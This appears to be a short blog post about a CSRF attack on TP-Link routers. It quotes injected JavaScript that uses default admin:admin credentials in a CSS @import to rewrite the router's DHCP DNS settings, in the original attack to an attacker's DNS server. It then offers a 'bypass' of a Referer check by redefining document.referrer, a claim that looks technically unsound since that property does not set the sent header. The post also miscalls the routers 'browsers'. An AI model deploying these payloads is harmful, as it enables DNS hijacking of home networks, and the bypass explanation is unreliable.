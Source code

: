 In this [blog post](http://www.jakoblell.com/blog/2013/10/30/real-world-csrf-attack-hijacks-dns-server-configuration-of-tp-link-routers-2/), Jakob Lell writes about an attack on tp-link browsers his honeypots picked up on where a CSRF attack is made against TP-Link browsers.

In the attack, the attacker uploads javascript to a site that the target visits, which when visited triggers the csrf attack.

The attack code looked like this (wherein the attack changes the DNS settings on the server to point to Google's DNS)

```
document.writeln('<style type="text/css">@import url(http://admin:admin@192.168.1.1/userRpm/LanDhcpServerRpm.htm?dhcpserver=1&ip1=192.168.1.100&ip2=192.168.1.199&Lease=120&gateway=0.0.0.0&domain=&dnsserver=106.187.36.85&dnsserver2=8.8.8.8&Save=%B1%A3+%B4%E6);</style>')
```

On a new version of TP-Link, I found they added a server-side protection that checks the referer header (in addition to changing the ip to 192.168.0.1). This can be trivially bypassed in javascript by modifying the attack to look like so:

```
Object.defineProperty(document, "referrer", {get : function(){ return "http://192.168.0.1/userRpm/LanDhcpServerRpm.htm?dhcpserver=1&ip1=192.168.0.100&ip2=192.168.0.199&Lease=120&gateway=0.0.0.0&domain=&dnsserver=8.8.4.4&dnsserver2=8.8.8.8&Save=Save"; }});

document.writeln('<style type="text/css">@import url(http://admin:admin@192.168.0.1/userRpm/LanDhcpServerRpm.htm?dhcpserver=1&ip1=192.168.0.100&ip2=192.168.0.199&Lease=120&gateway=0.0.0.0&domain=&dnsserver=8.8.4.4&dnsserver2=8.8.8.8&Save=Save);</style>');
```

Wherein we first set the referrer to an acceptable string, then trigger the attack (with the ip updated).

